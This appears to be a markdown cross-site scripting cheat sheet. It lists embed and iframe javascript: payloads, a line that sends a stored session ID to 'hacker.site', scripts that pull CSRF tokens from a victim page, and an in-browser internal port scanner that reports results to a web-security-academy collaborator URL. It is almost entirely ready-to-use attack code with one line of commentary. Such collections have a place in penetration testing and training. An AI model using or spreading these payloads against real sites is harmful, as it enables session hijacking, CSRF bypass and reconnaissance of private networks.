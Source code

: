## Payloads
```html
<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
<iframe src='jAvAsCripT:alert`1`'></iframe>


```

## Extract Session Data
```js
new Image().src ="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'));
```

> Despite `document.cookie`, the attacker needs to be more precise because the name of the key used to store the session ID may change

## Scripts
### Extract CSRF Token from XSS in same page
Using XHR
```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == 4) {
var htmlSource = xhr.responseText;
//some operations…
}
}
xhr.open('GET','http://victim.site/csrf-form-page.html', true);
xhr.send();
```
Using JQuery
```js
Req= jQuery.get('http://victim.site/csrf-form-page.html', 
function() {
var htmlSource = jReq.responseText;
//some operations…
});
```
Using DOM
```js
var token = document.getElementsByName('csrf_token')[0].value
```

### Extract CSRF Token from XSS in different page
Using regex
```js
attern = /csrf_token'\svalue='(.*)'/;
token = htmlSource.match(pattern)[1]
```
Using DOM Parser
```js
parser = new DOMParser().parseFromString(htmlSource,"text/html");
token = parser.getElementsByName('csrf_token')[0];
```

### Internal Network Port Scanner 
```js
<script>
var q = [], collaboratorURL = 'http://ac3b1fe21fddcea0802d5e8a01780096.web-security-academy.net/exploit';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
    location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script> 
```